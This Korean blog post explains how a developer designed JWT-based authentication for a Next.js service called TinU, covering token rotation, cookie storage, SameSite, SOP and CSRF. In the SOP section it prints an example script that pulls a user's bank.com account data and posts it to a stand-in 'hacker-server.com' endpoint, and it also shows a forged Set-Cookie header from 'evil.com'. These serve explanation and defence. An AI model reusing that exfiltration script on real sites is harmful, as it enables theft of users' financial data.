




이번 포스트에서는 TinU 프로젝트의 인증 아키텍처를 설계하는 과정에서 고민했던 부분을 정리해보았습니다. 인증 인가는 프론트엔드 개발자도 같이 고민해야 할 문제이고, 이번에 TinU 서비스에서 주도적으로 인증 아키텍처를 설계해보았습니다.

## 세션 vs JWT

먼저 유저 인증을 관리하는 방식에는**세션 기반 인증**과 **JWT(JSON Web Token) 기반 인증**이 있습니다. TinU 서비스에 어떤 방식이 더 적합한지 고민하며 두 방식을 비교해보았습니다.

### 세션 방식
세션 방식은 서버가 인증 상태를 저장하고, 클라이언트는 해당 상태를 식별하기 위한 session ID만을 전달하는 방식입니다. 클라이언트는 요청마다 session ID를 전송하고, 서버는 이를 기반으로 사용자를 식별합니다.

인증 상태와 관련된 데이터가 서버에서 관리되기 때문에 보안에 좋지만, 서버가 Stateful해지면서 생기는 몇 가지 구조적인 문제가 존재합니다.

만약 서버가 A, B, C 등 여러개 있는 환경이라고 가정해보겠습니다.<br/>
사용자가 처음 요청을 보낼 때 A 서버와 세션을 맺었다 하더라도, 다음 요청이 B 서버로 전달된다면 B 서버는 해당 사용자의 세션 정보를 알 수 없게 됩니다.<br/>
이는 다중 서버 인스턴스를 운영하는 환경에서 로드밸런서가 각 요청을 랜덤하게 분산하는 경우 충분히 발생할 수 있는 문제입니다.

또 서버가 다운되거나 장애가 발생할 경우 서버 메모리와 함께 세션 데이터도 소멸하게 되면서 세션이 유실되는 문제도 있습니다.

### JWT 방식
JWT는 서버가 사용자의 인증 상태를 저장하지 않고, 사용자를 식별하기 위한 정보와 만료 시간을 포함한 서명된 토큰을 클라이언트에게 발급하는 방식입니다.

서버는 요청이 들어올 때마다 토큰의 서명과 만료 여부만 검증하고 별도의 세션 상태를 유지하지 않기 때문에 서버는 Stateless하게 동작합니다. 이러한 특성 덕분에 JWT 방식은 다중 서버 인스턴스  환경에서도 별도의 세션 동기화 없이 안정적으로 동작합니다.

하지만 세션 기반 인증의 경우 session ID가 탈취되더라도 서버 측에서 해당 세션을 무효화할 수 있지만, JWT는 한 번 발급되면 토큰이 만료되기 전까지는 서버가 이를 즉시 회수하기 어렵습니다. 이로 인해 토큰이 탈취되었을 경우, 만료 시점까지 악용될 수 있는 위험이 존재합니다.

따라서 JWT 기반 인증을 사용할 경우, 토큰 탈취를 최소화하기 위한 보안 전략이 필수적입니다.

### TinU에 적합한 방식

TinU는 모놀리식한 서버 구조를 사용하고 있습니다. 그래서 세션 방식이 Stateful함으로써 갖게 되는 다중 인스턴스 환경의 문제들이 적용되지는 않습니다.

하지만 서버 인스턴스 스펙이 좋지 못했기 때문에 세션 정보를 서버 메모리에 저장하는 방식은 메모리 사용량 측면에서 부담이 될 수 있다고 판단하였습니다.

그래서 TinU에서는 JWT 방식으로 인증을 관리하기로 결정하였습니다.

## Access Token & Refresh Token

JWT 토큰 방식을 택했으므로 토큰 탈취에 대한 보안 전략을 잘 세워야 합니다. 앞으로 인증을 위한 유저 JWT 토큰을 Access Token이라고 하겠습니다.

Access Token은 TTL을 최대한 짧게 해서 탈취당하더라도 자주 갱신하는 것이 좋습니다. 하지만 만료가 되면 해당 토큰으로 인증을 할 수 없는 것이기 때문에 재발급을 받아야 합니다.

새로운 토큰을 발급받기 위해서는 로그인을 다시 해야 하는데, 상상해보면 서비스를 이용하는데 자꾸 로그인이 풀리게 되면 유저 입장에서는 귀찮아질 것입니다.

Access Token의 TTL이 짧아질 수록 보안에는 좋겠지만, 그만큼 UX는 떨어진다고 볼 수 있습니다.

이러한 문제를 해결하기 위해 저희는 Refresh Token을 함께 사용하는 방식을 선택했습니다.

Access Token은 TTL을 짧게 하는 대신 TTL이 긴 Refresh Token을 함께 발급해서 Access Token이 만료되었을 경우 이를 재발급하는 데 사용합니다.

이를 통해 사용자는 로그인 상태를 유지한 채 Access Token만 주기적으로 갱신할 수 있어 보안과 UX 사이의 균형을 맞출 수 있게 됩니다.

Refresh Token은 TTL이 길기 때문에 반드시 보안적으로 안전해야 합니다. 하지만 R.T의 TTL이 길기 때문에 만약 탈취된다면 더욱 치명적일 것입니다.

TinU에서는 이러한 위험을 줄이기 위해 **Refresh Token Rotation** 전략을 도입했습니다. 이는 Refresh Token으로 Access Token을 재발급할 때, 기존 Refresh Token을 무효화하고 새로운 Refresh Token을 함께 발급하는 방식입니다.

이 전략을 사용하면 Refresh Token이 지속적으로 회전되므로, 탈취되더라도 실제로 악용할 수 있는 시간 범위를 크게 줄일 수 있습니다. 다만, 유저가 많아질수록 토큰 발급 및 무효화 처리가 빈번하게 발생하므로 서버 부하와 저장소 관리 비용이 증가할 수 있다는 단점도 존재합니다.

앞서 말했듯 저희의 서버 스펙은 좋지 않았지만 보안은 중요하기 때문에, Refresh Token Rotation 방식을 유지하되 유저가 많아져서 실제 부하가 생기면 인증 서버를 분리하는 식으로 대처할 예정입니다.

## Token 관리 전략

Access Token과 Refresh Token에 대한 정보를 클라이언트에서 알고 있어야 하는데, 클라이언트에서 토큰을 어떻게 관리하는 것이 TinU 서비스에서 가장 적절할지 고민해보았습니다.

TinU는 Next App Router를 사용하고 있습니다.

### Refresh Token

Refresh Token은 절대로 탈취당하면 안 되는 토큰입니다. Refresh Token이 탈취당하면 아무리 Access Token을 몰라도 얼마든지 새로운 Access Token을 발급받을 수 있기 때문입니다.

먼저 브라우저의 localStorage로 관리하는 방법이 있습니다. 하지만 localStorage는 다음과 같이 JS로 자유롭게 접근할 수 있습니다.

```js
localStorage.getItem("access_token");
```

이로 인해 XSS 공격이 발생할 경우 토큰이 그대로 탈취될 수 있다는 치명적인 문제가 있습니다.
따라서 Refresh Token을 localStorage에 저장하는 방식은 보안 측면에서 적절하지 않다고 판단했습니다.

다음으로 인메모리로 관리하는 방법이 있습니다. 이 방법 또한 JS로 접근이 가능하므로 XSS에 취약하다는 단점이 존재합니다.

쿠키를 사용할 경우, 브라우저에서 제공하는 쿠키 속성을 통해 보안을 설정할 수 있다는 장점이 있습니다. 적절한 속성을 설정하면 JavaScript 접근을 차단하고, 네트워크 상에서의 탈취 가능성도 크게 줄일 수 있습니다.

TinU에서는 Refresh Token을 쿠키로 관리하도록 하였고, 아래의 주요 쿠키 속성들을 중심으로 보안성을 고려해보았습니다.

### HttpOnly 속성

`HttpOnly` 속성은 JavaScript에서 `document.cookie`를 통해 쿠키에 접근하지 못하도록 하는 설정입니다.

이 속성이 설정되지 않은 쿠키는 브라우저 내 JS 코드에서 직접 접근할 수 있기 때문에, XSS 공격이 발생할 경우 토큰 탈취로 이어질 수 있습니다.

따라서 쿠키에 `HttpOnly` 속성을 설정하여 클라이언트 JavaScript 코드로부터의 접근을 차단하도록 하였습니다.

### Secure 속성

쿠키는 HTTP 요청 시 헤더에 포함되어 네트워크를 통해 전송됩니다. 만약 암호화되지 않은 HTTP 통신을 사용할 경우, 네트워크를 스니핑하는 공격자에 의해 쿠키가 탈취될 위험이 존재합니다.

`Secure` 속성은 HTTPS로 암호화된 통신에서만 쿠키가 전송되도록 강제하는 속성입니다.

따라서 쿠키에 `Secure` 속성을 설정하여 중간자 공격(MITM)이나 패킷 스니핑을 통한 쿠키 탈취 가능성을 최소화하였습니다.

### SameSite 속성

브라우저는 SOP 정책이라는 것이 있습니다. origin이 다른 리소스에 대한 정책입니다.

여기서 Same-Origin은 리소스를 요청한 origin과 리소스를 응답한 origin이 동일한 상태이며, origin이 동일하다는 것은 프로토콜, 도메인, 포트가 모두 같은 경우입니다. 하나라도 다른 경우는 cross-origin으로 정의됩니다.

Same-Origin과 Same-Site는 동일하다에 대한 기준이 다릅니다. 이는 밑에서 SameSite에 대해 설명할 때 같이 설명하겠습니다.

기본적으로 브라우저는 Same-Origin인 요청만 허용하며, cross origin인 경우에는 응답받은 리소스에 대한 접근을 차단합니다.

왜 이런 정책이 있는 것일까요?
SOP 정책이 없다고 가정하고 다음 시나리오를 확인해보겠습니다.

1. 유저가 bank.com에 로그인을 성공하고, bank.com이 유저의 브라우저에 인증 토큰을 쿠키로 저장합니다.
2. 공격자가 다음과 같은 스크립트를 담은 사이트에 접속하도록 유저에게 스팸 문자로 전송합니다.
```html
<script>
  const accounts = await fetch('https://bank.com/api/accounts', {
	  credentials: 'include'
   }).then(r => r.json());
   
   const transactions = await fetch('https://bank.com/api/transactions', {
      credentials: 'include'
    }).then(r => r.json());
      
    await fetch('https://hacker-server.com/stolen-data', {
      method: 'POST',
      body: JSON.stringify({
        accounts,
        transactions
      })
    });
</script>
```

3. 유저가 사이트에 접속하자마자 이 script가 실행되고, `bank.com`에 유저의 계정과 계좌 정보를 가져오는 fetch가 실행됩니다. `bank.com`에 대한 인증 정보 cookie가 존재하기에 요청에 cookie 데이터도 같이 실어보내게 됩니다. 여기서 cookie의 `SameSite` 속성은 None이라고 가정했습니다.
4.`bank.com`은 정상 사용자 요청으로 판단하여 해당 유저의 계정과 계좌 정보를 반환합니다.
5. 악성 사이트는 2번 로직에 따라 반환받은 유저 계정과 유저 정보를 공격자의 서버로 전송합니다.

이렇게 유저의 계정과 계좌 정보가 탈취당했습니다.<br/>
만약 SOP 정책이 있었다면 위 시나리오에서 3번 단계에서 요청 origin인 해커 사이트와, 응답 origin인 bank.com이 다르기 때문에 응답받은 데이터에 접근이 불가능해서 위와 같은 시나리오의  탈취가 불가능해집니다.

물론 Cross-Site라고 해서 무조건 응답받은 리소스에 접근하지 못하는 것은 아닙니다.

응답 서버는 응답 헤더에 `Access-Control-Origin-Header`를 지정할 수 있는데, 여기에 지정된 도메인에 한정해서 origin이 달라도 응답받은 리소스에 접근할 수 있습니다.

여기서 아주 중요한 것은 응답받은 리소스의 접근을 차단하는 것이지, 요청 자체가 차단되는 것이 아니라는 것입니다.

위와 같이 단순 조회를 하는 경우에는 요청이 가더라도 접근만 막으면 문제가 되지 않지만, 서버 데이터를 변경하는 요청의 경우 응답 데이터를 읽지 않아도 공격이 성공해버리게 됩니다.

이를 해결하려면 실제 요청을 보내기 전에 먼저 서버에서 허용해준 origin인지 확인을 해보면 됩니다. 이것이 Prefilght Request입니다.



Preflight Request와 반대되는 방법으로 Simple Request 방식이 있습니다. 사전 origin 검증 없이 응답 origin에 바로 요청을 날려버립니다. 대표적으로 `form` 태그를 이용해서 요청을 하게 되면 Simple Request가 트리거됩니다.



다음 링크에서 Simple Request가 트리거되는 케이스에 대해 확인할 수 있습니다.<br/>
https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CORS#simple_requests


SOP + Prefilght Request 조합으로 모든 것이 해결되면 좋겠지만, 아쉽게도 해결되지 않습니다.

먼저 `img`나 `link` 태그 등을 활용한 요청에는 SOP 정책이 적용되지 않습니다.
SOP 정책이 적용되지 않는 경우를 다음 링크에서 확인할 수 있습니다.<br/>
https://developer.mozilla.org/en-US/docs/Web/Security/Defenses/Same-origin_policy#cross-origin_network_access

또 위에 언급되었듯 Simple Request가 트리거되는 케이스도 있기 때문에 모든 요청에 SOP + Preflight Request가 보장되지 않습니다.

또한 둘 다 보장되는 상황에서도 공격자가 요청 header의 origin 혹은 referrer를 악의적으로 조작하는 경우도 쉽진 않지만 완전히 배제하기는 어렵습니다.

이를 막기 위한 한 가지 방법이 CSRF 토큰을 발급하는 것입니다. 서버는 신뢰하고 있는 유저에게 CSRF 토큰을 발급해주고, 유저는 요청 시 CSRF 토큰을 같이 전송해서 신뢰된 요청인 것을 검증하는 방법입니다.

하지만 CSRF 토큰은 탈취 위험이 있기 때문에 만료 시간을 두어야 하는데, 요청 중간에 토큰이 만료되면 어떻게 처리해야 할지 등등 토큰 만료에 대한 관리 로직이 서버에 추가되어야 합니다.

쿠키는 요청 시 자동으로 전송되는 특성 때문에 CSRF 공격에 특히 취약합니다.<br/>
브라우저는 CSRF 공격을 방지할 수 있는 쿠키 속성을 지원하는데, 바로 `SameSite`라는 속성입니다.

위에서 잠깐 설명했듯 Same-Site는 Same-Origin과는 기준이 살짝 다릅니다.<br/>
Site는 URL에서 public suffix 기준 한 단계 하위 도메인까지만을 나타냅니다. 여기까지가 서로 동일하다면 Same-Site입니다.

예를 들어 `https://naver.com`과 `https://blog.naver.com`은 Cross-Origin이지만, Same-Site입니다.

`SameSite`는 `None`, `Strict`, `Lax`라는 3가지 속성값을 가질 수 있습니다. 쿠키의 `SameSite`를 지정하지 않았을 경우 구형 브라우저는 기본적으로 `SameSite` 속성을 `None`으로 설정하는데, 보안 상의 문제로 최신 브라우저들은 `SameSite` 속성의 기본값을 `Lax`로 설정하는 추세입니다.

각 속성값에 대해 알아보겠습니다.

### None
Same-Site, Cross-Site 구분 없이 모든 사이트에서 쿠키를 실어보낼 수 있습니다. 하지만 None으로 했을 경우 CSRF 공격에 취약해집니다. Chrome 기준으로 `None`을 사용하면 반드시 `Secure` 속성을 설정해주어야 합니다.


### Strict
Same-Site일 때만 쿠키 전송을 허용하는 속성입니다. `Strict` 속성은 CSRF에 안전합니다. 만약 위 시나리오에서 공격자가 `form` 태그 요청을 통해 서버에 변경 작업을 요청하게 되면 Simple Request가 트리거되면서 요청 자체를 막을 방법이 없었는데, 인증 토큰이 담긴 쿠키의 `SameSite` 속성이 `Strict`이면 공격자의 사이트에서 요청할 시 쿠키를 실어보내지 않으므로 인증에 실패하여 요청 자체가 실패하게 됩니다.

### Lax
기본적으로 `Strict`와 동일하되, Cross-site인 경우에도 특정 경우에는 쿠키를 전송할 수 있는 속성입니다.

여기서 특정 경우는 바로 Top-level navigation입니다. 허용되는 예시는 다음과 같습니다.

- `a` 태그의 `href`로 이동 시
- `document.location.href`로 요청 시

참고로 iframe에서 navigate하는 것은 쿠키가 전송되지 않습니다. Top-level이 아니기 때문입니다.
또 fetch / ajax 요청 또한 쿠키가 전송되지 않습니다.

### TinU의 Refresh Token 쿠키 속성

TinU는 현재 프론트엔드와 백엔드의 도메인이 분리된 구조입니다. 도메인이 다르기 때문에 `SameSite`를 반드시 `None`으로 할 수 밖에 없습니다. MITM을 방지하기 위해 `Secure` 속성을 설정하고, XSS 방어를 위해 `HttpOnly` 속성을 설정했습니다. 결론적으로 `HttpOnly` + `Secure` + `Samesite: None` 으로 쿠키 속성을 설정했습니다.

다만 `SameSite`를 `None`으로 했기 때문에 CSRF 공격에 취약해집니다. 이를 방어하기 위해 추가적인 CSRF 토큰을 활용하거나 프론트엔드와 백엔드 도메인을 일치시키고 `SameSite`를 `Strict`로 지정하는 방법이 있습니다.

둘 중 어떤 방식으로 해결할지에 대해서는 아키텍처를 더 설계해본 뒤에 서비스에 더 맞는 방법을 선택해보겠습니다.

### Access Token

Access Token을 localStorage에서 관리하면 위와 마찬가지로 XSS 위험이 존재합니다. 하지만 Access Token의 TTL이 짧기 때문에 Refresh Token이 탈취당하는 것보다는 피해 범위가 비교적 제한적입니다.

하지만 TinU는 Next.js를 사용하므로 서버 사이드 환경에 대한 고려도 필요합니다. Access Token이 localStorage에서 관리되면 서버 사이드에서 Token에 접근할 방법이 없다는 문제가 발생합니다. 이러한 상황에서 다음과 같은 제약이 생깁니다.

1. 서버사이드에서 개인화된 요청을 해야 할 경우 Access Token을 얻을 방법이 없습니다.

2. 로그인 여부를 클라이언트에서만 확인이 가능하기 때문에, 서버 사이드에서 렌더링할 때 항상 비로그인 기준 UI를 렌더링합니다. 그 후 클라이언트 사이드에서 Hydration 이후 `useEffect`에서 토큰에 접근할 수 있는데, 그제서야 로그인을 확인하고 로그인 기준 UI를 렌더링할 수 있습니다. 이 이전까지 유저는 비로그인 기준 UI를 보거나, 로딩 화면을 거쳐야 하므로 UX가 저하됩니다.

Access Token을 인메모리에서 관리하더라도 JS로 접근이 가능하므로 XSS 위험이 존재합니다.
또 서버 사이드에서 접근할 수 없으므로 이로 인한 제약은 동일하게 발생합니다.

추가로 인메모리 방식은 페이지 새로고침 시 상태가 초기화되므로, 매번 로그인이 풀리는 문제도 발생합니다.

Access Token을 쿠키로 관리할 경우 `HttpOnly` 속성을 통해 XSS 위험을 방지할 수 있으며, 새로고침을 하더라도 로그인을 유지할 수 있습니다.

또 Cookie로 관리하게 되면 서버 사이드에서 토큰을 읽을 수 있게 됩니다. 브라우저가 Next 서버로 요청 시 토큰이 포함된 쿠키가 전송되고, 서버는 요청 Header에 실려온 쿠키를 읽기만 하면 됩니다.

이를 통해 서버사이드에서 개인화된 요청도 가능해지고, 서버 사이드 렌더링 과정에서 로그인 여부 또한 판단할 수 있습니다.

이와 같은 이유로 Access Token도 쿠키로 관리하기로 결정했고, 쿠키 속성은 Refresh Token과 동일하게 `HttpOnly` + `Secure` + `None`으로 결정했습니다.

프론트엔드와 백엔드의 도메인이 다른 환경이라 `SameSite` 속성을 `None`으로 해야 하기 때문에 `Secure` 또한 필수적으로 따라오며, XSS 방어를 위해 `HttpOnly` 속성도 적용했습니다.

CSRF 방어에 대한 전략은 Refresh Token과 마찬가지로 아키텍처를 더 설계해보고 결정해보겠습니다.

## Next.js cookie에 대해 고려할 점

Next에서 cookie를 지정하는 방식에 대해 주의할 점이 있었습니다.

브라우저는 기본적으로 쿠키를 Domain 속성에 지정된 도메인으로 요청할 때만 전송합니다.

기존에는 로그인에 성공하면 백엔드 서버가 브라우저에 `Set-Cookie`를 통해 토큰을 설정하고 있었고, `Domain` 속성에는 백엔드 서버 도메인이 지정되어 있었습니다. 이렇게 되면 이 cookie는 백엔드 서버 도메인으로 요청할 때만 전송됩니다. 즉 Next 서버로는 cookie가 전송되지 않습니다.

다른 도메인으로 요청할 때 이 cookie가 전송되도록 할 수는 없을까요?? 즉 Domain 필드에 백엔드 서버가 아닌 다른 도메인을 지정하면 안 될까요?

브라우저 정책 상 안됩니다. 이유가 무엇일까요?

다음 시나리오를 생각해보겠습니다.

공격자가 `evil.com` 이라는 사이트를 만들고, 접속 시 다음과 같은 부분을 응답 헤더에 내려줍니다.

```
Set-Cookie: token=ATTACKER; Domain=tinu.com
```

유저가 evil.com 이라는 사이트에 접속하면 위와 같은 내용의 쿠키가 피해자의 브라우저에 실리게 됩니다.

유저가 쿠키 삭제를 하지 않은 채로 `tinu.com` 에 접속하면 유저도 모르게 공격자의 계정으로 로그인이 되고, 공격자의 계정으로 충전이나 구매가 이루어질 수도 있습니다.

이런 이유로 브라우저는 Cookie의 Domain 속성을 응답한 서버의 도메인이거나 그 상위 도메인만 지정 가능하도록 제한합니다.

결국 현재 백엔드에서 브라우저에 `Set-cookie`를 하고 있기 때문에 `Domain`은 백엔드 도메인으로 지정할 수 밖에 없고, Access Token과 Refresh Token은 브라우저가 백엔드에 요청할 경우에만 실려가게 됩니다.

이렇게 되면 Next 서버에서는 cookie 값을 읽을 방법이 없고, 결국 서버 사이드에서 개인화된 요청을 보내거나 로그인 여부를 확인할 수 없습니다. Next 서버로 요청할 때는 cookie가 실려가지 않기 때문입니다.

이런 문제를 해결하기 위한 몇 가지 방법을 생각해보았습니다.

### 프론트엔드와 백엔드 도메인 일치시키기

Next 서버와 백엔드 서버의 도메인을 다음과 같이 구성하고

```
Next 서버: tinu.com
백엔드 서버: api.tinu.com
```

백엔드에서 쿠키를 다음과 같이 설정하면

```
Set-Cookie: token=abc; Domain=.tinu.com
```

Next 서버와 백엔드 서버 모두 쿠키가 전송되게 되면서 문제를 해결할 수 있습니다.

구조도를 그리면 다음과 같습니다.



이렇게 하면 Next 서버에 대한 요청, 백엔드 서버에 대한 요청 모두 쿠키가 전송되는 것을 확인할 수 있습니다.

참고로 `tinu.com`으로 지정하면 정확한 도메인만 포함되므로, 앞에 .을 붙여줘야 서브도메인간 쿠키를 공유할 수 있습니다.

하지만 이렇게 지정하면 `tinu.com`의 서브도메인이기만 하면 쿠키가 전송되는데, 만약 해커가 `hacker.tinu.com` 도메인을 만들어서 유저의 접속을 유도하면 어떻게 될까요?

도메인 만들기에 성공한다면 접속 시 쿠키가 전송되어 토큰이 탈취되겠지만, `tinu.com`의 서브도메인을 만들기 위해서는 `tinu.com`의 DNS 관리 권한이 필요합니다. 이 권한은 `tinu.com`의 도메인 소유자만 보유한 권한이기 때문에 현실적으로 이러한 케이스에 대해 걱정할 필요는 없다고 생각했습니다.

### API Route를 활용해 Next 서버를 Proxy 서버로 사용하기

도메인이 다른 환경이라면, API Route를 활용해볼 수 있습니다.
다음과 같은 방법을 생각해보았습니다.



1. 브라우저에서 Next API Route로 로그인을 요청합니다.
2. Next 서버에서 백엔드 서버로 로그인을 요청합니다.
3. 백엔드는 토큰을 response body로 Next 서버에 반환합니다.
4. Next 서버가 해당 토큰을 쿠키로 설정하여 브라우저에 응답합니다. 여기서 `Domain`은 백엔드 서버가 아닌 Next 서버입니다.

이렇게 하면 Next 서버에 요청 시 쿠키가 날아가므로 Next 서버에서 로그인 여부를 확인할 수 있고, 서버 패칭도 가능해집니다. 요청을 Next 서버로 하면 Next 서버가 백엔드에 요청을 하는 방식이므로 Next 서버는 프록시 역할을 하게 됩니다. 이렇게 하면 백엔드 서버 도메인을 숨길 수 있다는 장점도 있습니다.

제가 선택한 해결책은 1번이었습니다.

2번의 경우 1번보다 네트워크 홉이 많습니다. 매 개인화된 요청은 클라이언트 패칭이라도 Next 서버를 반드시 거쳐야 하기 때문입니다.

